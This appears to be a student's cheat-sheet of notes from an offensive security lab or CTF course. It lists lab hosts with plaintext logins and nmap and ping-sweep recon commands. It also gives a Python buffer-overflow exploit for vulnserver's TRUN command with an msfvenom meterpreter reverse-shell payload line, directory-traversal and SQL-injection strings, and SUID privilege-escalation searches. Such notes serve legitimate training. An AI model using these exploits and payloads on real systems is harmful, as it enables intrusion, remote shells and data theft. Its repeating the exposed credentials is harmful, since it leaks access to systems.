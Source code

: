 # Useful Links

## GTFO BINS
https://gtfobins.github.io/

## Security CTFD Server
https://sec.cybbh.io/public/security/latest/index.html

	CTFD Server: http://10.50.20.250:8000	
	User: NIRI-505-M  
	Pass: gVN5chrkxW0bym1 	

## LinOps:
	ssh -X student@10.50.22.235
	password1

 ## Winops:

	xfreerdp /u:student /p:password /dynamic-resolution +clipboard /v:10.50.29.77

 # Host Discovery 

     nmap -v -sT -Pn -T4 -sV 192.168.28.111,120

## Places to check

	ip n
 	ip a / arp -a
  	cat /etc/hosts
   	ps -elf
    	ss -ntlp
     	cron
      	
     	
## HTTP Enumeration Script:

    nmap -v -sT -Pn -T4 --script=http-enum.nse 192.168.28.111 -p 80

## Ping Sweep: 

     for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" & ); done

     
### secureServerBuffo.py script
	#!/usr/bin/python2.7
	
	import socket
	
	'''
	625011AF
	625011BB
	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.X.X lport=4444 -b "\x00" -f python
 	lhost = linux opstation, or whatever host is used to as the attack platform for operation. 
  
    Set multi/handler on msfconsole, & and use script with msfvenom payload 
	'''
	
	
	buf = "TRUN /.:/" #Exploit
	buf += "A" * 2003 #Buffer Offset
	buf += "\xa0\x12\x50\x62"  #JMP ESP
	buf += "\x90" * 15 #NOP SLED
	buf += #SHELLCODE HERE
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) # Creates IPv4 socket
	
	s.connect(("0.0.0.0",412XX))    #IP and port to connect to through tunnel
 	print s.recv(1024)   #print response
	s.send(buf)       #sends the variable buf
	print s.recv(1024)   #print response
	s.close()         #close the connection



# Review 

nmap scan:

	nmap -v -sT -Pn -T4 -sV <ip>

http-enum scan

     	nmap -v -sT -Pn -T4 --script=http-enum.nse <ip> -p 80

      Check /img/ for network map

directory traversal:

	Usually found in File to Read search bar. 

	../../../../../etc/passwd
 	../../../../../etc/hosts
  
Fuzzing the pages:

	pick.php?product=7 OR 1=1 ;
 	products7 UNION SELECT 1,2,3

   	<URL>/pick.php?product=7 UNION SELECT table_schema,column_name,table_name FROM information_schema.tables	# golden Statement


Escalating Privs on Linux:

	find binaries with guid bit set. 

 	find / -type f -perm /2 -o -type d -perm /2 2>/dev/null  # Search for any file or directory that is writable by the context "other"

	find / -type f -perm /4000 -ls 2>/dev/null 	# finds commands with the suid bit set. 

	find / -type f -writable -o -type d -writable 2>/dev/null # Search for any file or directory that is writable by the current user /tmp 


Finding running service ports if nc doesn't give adequate results (Windows):
	
 	Grab pid # from: 
  		tasklist /sv | findstr <service name>
	run netstat -ano | findstr "pid#"



